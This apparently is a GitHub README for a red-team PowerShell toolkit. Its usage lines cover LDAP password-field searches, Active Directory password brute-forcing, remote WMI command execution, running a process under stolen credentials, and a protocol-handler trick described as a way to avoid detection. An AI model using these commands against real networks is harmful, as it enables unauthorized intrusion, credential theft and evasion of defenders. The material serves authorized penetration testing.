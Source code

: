 # Red Team Powershell Scripts

```
Search-EventForUser.ps1: Powershell script that search through the Windows event logs for specific user(s)
Search-FullNameToSamAccount.ps1: Full name to SamAccountName
Search-UserPassword.ps1: Search LDAP for userPassword field
Remote-WmiExecute.ps1: Execute command remotely using WMI
Take-Screenshot.ps1: Take a screenshot (PNG)
Get-BrowserHomepage.ps1: Get browser homepage
Get-IEBookmarks.ps1: List all Internet Explorer bookmarks URLs
Invoke-ADPasswordBruteForce.ps1: Test users password
Utility.ps1: Contain several cmdlets
Run-As.ps1: Run a process as another user (credentials)
Get-ProcessList.ps1: List processes, owner and command line arguments
Remote-RegisterProtocolHandler.ps1: Use protocol handler to run your command to bypass some detection
```

# Search-EventForUser.ps1 Usage
```
module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser "MrUn1k0d3r"

module-import .\Search-EventForUser.ps1; "MrUn1k0d3r" | Search-EventForUser

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -ComputerName DC01

module-import .\Search-EventForUser.ps1; Search-EventForUser -TargetUser MrUn1k0d3r -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true

module-import .\Search-EventForUser.ps1; "god", "mom" | Search-EventForUser -FindDC true -Username DOMAIN\admin -Password "123456"
```
The -User parameter support single user or a list of users from pipeline

# Search-FullNameToSamAccount.ps1 Usage
```
module-import .\Search-FullNameToSamAccount.ps1; Search-FullNameToSamAccount -Filter *god*

module-import .\Search-FullNameToSamAccount.ps1; "god", "mom" | Search-FullNameToSamAccount
```

# Search-UserPassword.ps1 Usage
```
module-import .\Search-UserPassword.ps1; Search-UserPassword -Username *god*

module-import .\Search-UserPassword.ps1; "god", "mom" | Search-UserPassword
```

# Remote-WmiExecute.ps1 Usage
```
module-import .\Remote-WmiExecute.ps1; Remote-WmiExecute -ComputerName victim01 -Payload "cmd.exe /c whoami"
```

# Take-Screenshot.ps1 Usage
```
module-import .\Take-Screenshot.ps1; Take-Screenshot -Path C:\test.png
```

# Get-BrowserHomepage.ps1 Usage
```
module-import .\Get-BrowserHomepage.ps1; Get-BrowserHomepage
```

# Get-IEBookmarks.ps1 Usage
```
module-import .\Get-IEBookmarks.ps1; Get-IEBookmarks
```

# Invoke-ADPasswordBruteForce.ps1 Usage
```
module-import .\Invoke-ADPasswordBruteForce; Invoke-ADPasswordBruteForce -Username "mr.un1k0d3r" -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password"

module-import .\Invoke-ADPasswordBruteForce; "neo","morpheus" | Invoke-ADPasswordBruteForce -Password "password" -Domain MATRIX
```

# Utility.ps1

Contain de following cmdlets
```
Search-EventForUser
Search-FullNameToSamAccount
Ldap-GetProperty
Search-UserPassword
Dump-UserEmail
Dump-Computers
Dump-UserName
```

# Run-As.ps1

```
module-import .\Run-As.ps1; Run-As -Username RingZer0\Mr.Un1k0d3r -Password "IShouldNotLeakThisPasswordOnTheInternet" -Process "C:\Evil.exe"
```

# COM-Utility.ps1

Contain de following cmdlets
```
Invoke-COM-ScheduleService
Invoke-COM-XMLHTTP
Invoke-COM-ShellBrowserWindow
Invoke-COM-WindowsScriptHost
Invoke-COM-ProcessChain 
Invoke-COM-ShellApplication
```

# Get-ProcessList.ps1 Usage

```
module-import .\Get-ProcessList.ps1; Get-ProcessList
```

# Remote-RegisterProtocolHandler.ps1 Usage

This cmdlet create a protocol handler that will call your payload. The idea is to avoid detection since the command that will be execute will look like the following one:

`explorer ms-browse://`

Where `ms-browser` is the custom handler you registered and will execute your command

```
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run"
module-import .\Remote-RegisterProtocolHandler.ps1; Remote-RegisterProtocolHandler -ComputerName host -Payload "command to run" -Handler ms-handler-name 
```

# Todo

2. Take-Screenshot.ps1:
  * Handle multiple screens

# Credit
Mr.Un1k0d3r RingZer0 Team
Tazz0 RingZer0 Team
